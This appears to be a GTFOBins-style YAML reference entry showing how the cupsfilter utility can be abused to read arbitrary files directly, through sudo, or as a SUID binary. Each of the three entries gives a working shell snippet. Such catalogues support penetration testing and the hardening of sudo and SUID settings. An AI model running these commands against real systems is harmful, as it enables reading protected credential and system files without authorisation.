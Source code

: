 functions:
  file-read:
    - code: |
        LFILE=file_to_read
        cupsfilter -i application/octet-stream -m application/octet-stream $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo cupsfilter -i application/octet-stream -m application/octet-stream $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./cupsfilter -i application/octet-stream -m application/octet-stream $LFILE
---
